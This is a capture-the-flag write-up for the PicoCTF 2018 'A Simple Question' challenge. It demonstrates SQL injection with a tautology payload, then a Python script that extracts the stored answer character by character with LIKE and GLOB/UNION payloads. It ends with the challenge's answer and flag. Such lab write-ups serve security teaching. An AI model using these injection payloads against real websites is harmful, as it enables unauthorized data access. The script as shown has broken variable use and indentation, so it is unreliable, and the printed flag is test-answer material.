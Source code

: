 # SQL Injection
PicoCTF 2018 A Simple Question

## Problem
There is a website running at http://2018shell1.picoctf.com:2644/ . Try to see if you can answer its question
## Solution
![](https://i.imgur.com/J3fhQiJ.png)
In the website, we can only see a single input form. Typing arbitrary answer to test, we will get
```php
SQL query: SELECT * FROM answers WHERE answer='f'
Wrong
```
as response, which indicates this is probably a sql injection problem.





Then we can use a common SQL method: `' or 'x'='x` to test and get the following result. 
(noted that`' or 'x'='x` provides a TRUE boolean value to the php.)
```php
SQL query: SELECT * FROM answers WHERE answer='' or 'x'='x'
You are so close.
```
According to the result, we can further confirm the input will be taken as a part of php. Therefore we can start programming to solve the problem.

In php`LIKE '{ }%'` can be used to find out whether the string is starting from the substring in the bracket. We can use this method write a small program in python. Making different requests to guess the string.
```python3=
params = {
'answer': "' OR answer LIKE '"+final+chr(i)+"%", 'debug': '1'
}
```

I simply use the brute force way to find out the answer. Using a for loop among all the characters, if I guess the first character right, I add the character to the answer string and keep guessing.
```python3=
for i in range(0x20, 0x7f):
    if  i!=37: # '%:37'
        requests.post('http://2018shell1.picoctf.com:2644/answer2.php', data=params)
	res = r.text

        if 'Wrong' in res:
        print(final,chr(i),"Wrong")
        if 'You are so close.' in res:
        final += chr(i)
        print (final,"Correct")
        break
        elif i == 0x7e:
        return final
```

If the loop goes through all the characters (line 12 ) and still don't revieve the "You are so close." response, it means the previous string is the final answer.

I then later find out that LiKE does not differ uppercase and lowercase, so I revise the sql and use GLOB which differs those two.
```python3=
'answer': "' UNION SELECT * FROM answers WHERE answer GLOB '{}{}*'; --".format(final, chr(i))
```
At the end, the answer is `Answer 41AndSixSixths`
Copy it to the input and get the flag
```
SQL query: SELECT * FROM answers WHERE answer='41AndSixSixths'
Perfect!
Your flag is: picoCTF{qu3stions_ar3_h4rd_28fc1206}
```






